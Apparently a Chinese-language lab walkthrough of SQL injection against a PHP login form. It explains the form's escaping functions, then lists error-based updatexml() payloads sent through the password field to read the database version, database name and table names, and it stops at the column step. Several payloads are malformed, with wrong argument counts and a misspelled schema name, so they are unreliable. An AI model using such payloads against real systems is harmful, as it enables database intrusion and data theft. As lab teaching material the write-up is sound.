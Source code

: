 			}
 
		// Quote if not a number

		if (!ctype_digit($value))

			{

			$value = "'" . mysql_real_escape_string($value) . "'";

			}
		
	else

		{

		$value = intval($value);

		}

	return $value;

	}

只截取15个字符，

get_magic_quotes_gpc()

当magic_quotes_gpc=On的时候，函数get_magic_quotes_gpc()就会返回1

当magic_quotes_gpc=Off的时候，函数get_magic_quotes_gpc()就会返回0

magic_quotes_gpc函数在php中的作用是判断解析用户提示的数据，如包括有：post、get、cookie过来的数据增加转义字符“\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符引起的污染而出现致命的错误。

在magic_quotes_gpc = On的情况下，如果输入的数据有

单引号（’）、双引号（”）、反斜线（\）与 NULL（NULL 字符）等字符都会被加上反斜线。

stripslashes()删除由 addslashes() 函数添加的反斜杠

ctype_digit()判断是不是数字，是数字就返回true，否则返回false

mysql_real_escape_string()转义 SQL 语句中使用的字符串中的特殊字符。

intval()     整型转换

但是对password没有太多的过滤

2.针对password进行爆破，由题目使用updatexml()函数报错

对版本进行测试爆破：

`uname=admin&passwd=admin' and updatexml(1,concat('~',version()),'~',1)--+ &submit=Submit`

爆库

`uname=admin&passwd=admin' and updatexml(1,concat('~',database()),'~',1)--+ &submit=Submit`

爆表

`uname=admin&passwd=admin' and updatexml(1,concat('~',(select group_concat(table_name) from information_schma.columns where table_schema=database()),'~'),1)--+ &submit=Submit`

爆列名
